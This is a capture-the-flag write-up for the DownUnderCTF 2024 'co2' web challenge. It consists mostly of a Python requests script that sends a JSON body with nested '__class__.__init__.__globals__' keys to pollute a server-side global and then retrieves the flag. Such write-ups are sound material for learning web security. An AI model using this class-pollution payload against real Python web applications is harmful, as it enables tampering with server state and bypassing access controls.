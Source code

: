 # co2
Solved by **aan**

## Question
A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application.

## Solution
```
import requests

url = 'https://web-co2-e5579efdaa23dfd5.2024.ductf.dev/save_feedback'
headers = {
    'Host': 'web-co2-e5579efdaa23dfd5.2024.ductf.dev',
    'Content-Type': 'application/json'
}
cookies = {
    'session': '.eJwlzjsOwjAMANC7ZGawm9hOepnK8UewpnRC3B0QB3jSe5UjV5z3sj_XFbdyPLzsRbWJu-KsksBsnbsBJJJoRhURmghE2IDMu7eRdSNWYkerUxx4cApwuM0cOkaiBbUfGiJOlrwZBGk09FnNW2UXhDra7DqxfCPXGeu_wfL-AMKJL2c.ZogjbQ.2MS_haKTYdV6WBL5grb7WdWl1NI'
}
data = {
    "title": "test",
    "content": "test",
    "rating": "",
    "referred": "etst",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

response = requests.post(url, headers=headers, cookies=cookies, json=data)

print(response.status_code)
print(response.text)

getflag_url = 'https://web-co2-e5579efdaa23dfd5.2024.ductf.dev/get_flag'
getflag_response = requests.get(getflag_url, headers=headers, cookies=cookies)

print(getflag_response.text)
```

Reference:
- https://blog.abdulrah33m.com/prototype-pollution-in-python/

### Flag
`DUCTF{_cl455_p0lluti0n_ftw_}}`
